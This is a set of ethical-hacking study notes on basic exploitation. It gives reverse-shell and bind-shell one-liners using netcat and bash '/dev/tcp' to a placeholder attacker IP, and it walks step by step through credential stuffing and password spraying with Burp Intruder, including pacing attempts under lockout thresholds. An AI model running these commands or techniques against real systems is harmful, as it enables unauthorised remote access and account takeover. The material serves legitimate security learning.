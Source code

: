 # Exploitation (Basics)

## Shells

### Reverse shell

![image](https://user-images.githubusercontent.com/96747355/175835538-b00ec472-e4b3-4688-b062-25d37837b8b1.png)  
Source:[hackingtutorials.org](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/)
- The target connects back to us
- Example 
  - in our attacking machine we type `nc -nlvp 4444` (4444 is the port) 
  - in our target we connect be. For instance in case of a linux based machine we can do `netcat ATTACKING-MACHINE-IP 4444 -e /bin/bash` we could also use `/bin/bash -i >& /dev/tcp/ATTACKING-MACHINE-IP/4444 0>&1`

### Bind shell

![image](https://user-images.githubusercontent.com/96747355/175835567-7bb7a51d-7761-4cc8-983a-cc7087dacaac.png)  
Source:[hackingtutorials.org](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/)

- We connect to the target
- Example
  - in our target we can do `nc -nlvp 4444 -e /bin/bash`
  - in our attacking machine we can do `nc TARGET-IP 4444`

## Payloads

![image](https://user-images.githubusercontent.com/96747355/175836279-e0f0e004-c75a-4d8e-b4de-9680e1b5306a.png)  
Source:[TCM Academy](https://academy.tcm-sec.com/p/practical-ethical-hacking-the-complete-course)

- If one type of payload does not work we can try the other one

## Bruteforce attacks

- Check out how to use hydra [here](/Tools/passwords-tools.md#hydra)
- We can also use metasploit that has multiple modules for bruteforce attacks

## Credentials stuffing and password spraying

- Methodology
  - Use leaked creds found during the enumeration phase on the login portals found during the enumeration phase
- The goal of credentials stuffing and password spraying is to taking these credentials and throwing them at a website
- We can use burp intruder for this
  - First we can see what we get when a login fails, and copy the string we get back
  - We send the login portal to intruder and we add the login and password as variables
  - We use a pitchfork attack
  - We make a grep-match on the string previously copied 
  - Then in the payloads we take the list of users for the variable that corresponds to user and the list of passwords for the one that corresponds to the password. And then we just launch the attack.
  - In the results we will see the ones that are not valid with our grep match. We can also check the response (301 is redirect for example) and the size of the paylaod (if it is really different in one of the results
- Password spraying: We can also try an attack with one password and try out multiple usernames
  - Caution here, checkout prior to your engagement if a lockout is in place how many tried before being locked out. When we know this we can then setup our attack to try something every hour or so.

## Resources

{% embed url="https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/" %}Hacking Tutorials{% endembed %}
{% embed url="https://academy.tcm-sec.com/p/practical-ethical-hacking-the-complete-course" %} Practical Ethical Hacking - TCM Security {% endembed %}
